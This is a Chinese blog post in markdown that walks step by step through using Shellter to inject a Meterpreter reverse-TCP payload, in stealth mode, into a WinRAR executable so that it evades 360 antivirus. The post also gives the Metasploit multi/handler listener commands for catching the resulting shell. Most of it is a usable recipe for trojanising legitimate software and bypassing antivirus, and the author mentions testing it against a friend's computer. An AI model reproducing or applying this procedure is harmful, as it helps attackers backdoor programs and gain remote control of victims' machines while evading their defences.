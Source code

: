 ```yaml
---
layout:     post
title:      记一次使用Shellter做免杀过360过程
subtitle:   免杀入门学习
date:       2018-11-12
author:     蓝胖
header-img: img/post-bg-2018-11-08.jpg
catalog: true
tags:
    - 免杀
    - Shellter



---
```


>“我觉得法律应该明确规定下，在这么阳光明媚的日子里上班应该算公司耍流氓！”


 > Shellter是一个开源的免杀工具，利用动态Shellcode注入来实现免杀的效果。好神奇阿，有空可以详细研究研究

# 环境及工具：
KALI	192.168.117.131
目标		192.168.117.1

[Shellter](https://www.shellterproject.com/download/)
https://www.shellterproject.com/download/
[![iLE1A0.md.jpg](https://s1.ax1x.com/2018/11/12/iLE1A0.md.jpg)](https://imgchr.com/i/iLE1A0)

[notepad](https://notepad-plus-plus.org/download/v7.5.9.html)
[![iLEMBn.md.png](https://s1.ax1x.com/2018/11/12/iLEMBn.md.png)](https://imgchr.com/i/iLEMBn)

# 进行免杀
下载Shellter，进入目录输入：wine shellter.exe 运行。第一次运行比较慢，去嘘嘘活动下。出现如下界面代表运行成功。 
[![iLEnXj.md.jpg](https://s1.ax1x.com/2018/11/12/iLEnXj.md.jpg)](https://imgchr.com/i/iLEnXj)
我第一次用的时候提示我没有装 wine，按照提示 apt-get wine就行。
提示下：如果半天没有反应，按下回车就行了
**Choose Operation Mode - Auto/Manual (A/M/H): A**  
模式选择，选手动模式 A 
A 自动添加后门、M 高级用法、H 帮助

**PE Target: /root/Desktop/wrar.exe**
需要加包的路径+名称
[![iLEQ7q.md.png](https://s1.ax1x.com/2018/11/12/iLEQ7q.md.png)](https://imgchr.com/i/iLEQ7q)


**Enable Stealth Mode? (Y/N/H): Y**   
是否启用隐身模式，启用 Y
[![iLEZ9S.md.jpg](https://s1.ax1x.com/2018/11/12/iLEZ9S.md.jpg)](https://imgchr.com/i/iLEZ9S)

**Use a listed payload or custom? (L/C/H): L**
使用攻击模块列表或者自定义？ 

**Select payload by index: 1**

**SET LHOST: 192.168.117.131**
设置接收反弹的IP

**SET LPORT: 8088**
设置接收反弹的端口

[![iLEEh8.md.jpg](https://s1.ax1x.com/2018/11/12/iLEEh8.md.jpg)](https://imgchr.com/i/iLEEh8)
[![iLEe1g.md.jpg](https://s1.ax1x.com/2018/11/12/iLEe1g.md.jpg)](https://imgchr.com/i/iLEe1g)

# 设置监听
进入MSF控制台输入如下
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.117.131   
set lport 8088
exploit
[![iLEmcQ.md.jpg](https://s1.ax1x.com/2018/11/12/iLEmcQ.md.jpg)](https://imgchr.com/i/iLEmcQ)
360杀毒截图,腾讯管家也行，朋友电脑没有截图
[![iLEKns.md.jpg](https://s1.ax1x.com/2018/11/12/iLEKns.md.jpg)](https://imgchr.com/i/iLEKns)

